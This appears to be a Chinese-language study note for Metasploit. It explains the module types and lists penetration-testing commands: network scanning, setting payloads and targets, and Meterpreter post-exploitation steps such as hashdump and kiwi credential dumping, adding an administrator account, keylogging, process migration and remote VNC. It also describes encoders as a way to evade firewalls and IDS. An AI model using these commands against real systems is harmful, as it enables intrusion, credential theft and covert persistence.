 1、Auxiliary（辅助模块）

为渗透测试信息搜集提供了大量的辅助模块支持

2、Exploits（攻击模块）

利用发现的安全漏洞或配置弱点对远程目标系统 进行攻击，从而获得对远程目标系统访问权的代码组件。

3、Payload（攻击载荷模块）

利用漏洞之前要先建立一个Payload,其作用是确定漏洞攻击成功之后要执行什么操作，Payload基本上是用于访问远程计算机的反向shell和通过shel植入后门等到被入侵的电脑

4、Post （后渗透攻击模块）

收集更多信息或进一步访问被利用的目标系统

5、Encoders（编码模块）

不能确保所有Metasploit中的exp都可以正常工作，有时候 会遇到防火墙、IPS、IDc等，所有的试图攻击等可能会被 防火墙过滤掉，这时候就需要使用Encoders来对exp进行编码等，用来逃避防火墙、IPS、IDs的检测。

6、options-选项

所有的Exploit和Payload都有一些内置的参数，诸如远程IP、 本地IP、LPORT、RPORT、服务路径、用户名等。这些参数 在利用exp之前需要进行配置，可以使用Show Options命令 来显示具体的选项。


`arp-scan -l`
扫描本地网段
`nmap --script=vuln  目标`
`msfconsole` 启动
search 搜索
use 使用
`set rhost` 远程主机
`set rport` 远程端口
`run` 开始

`set payload`  指定载荷
`show options` 当前选项

`sysinfo` 系统信息

shell 反弹shell

`hashdump`

`load kiwi`
`creds_all`

net user xxx /add
net localgroup administrators xxx /add

screenshot
ps 
migrate PID
getuid
`run post/windows/capture/keylog_recorder` 键盘记录
`execute -f c:\\aaa.exe`
`run vnc` 远程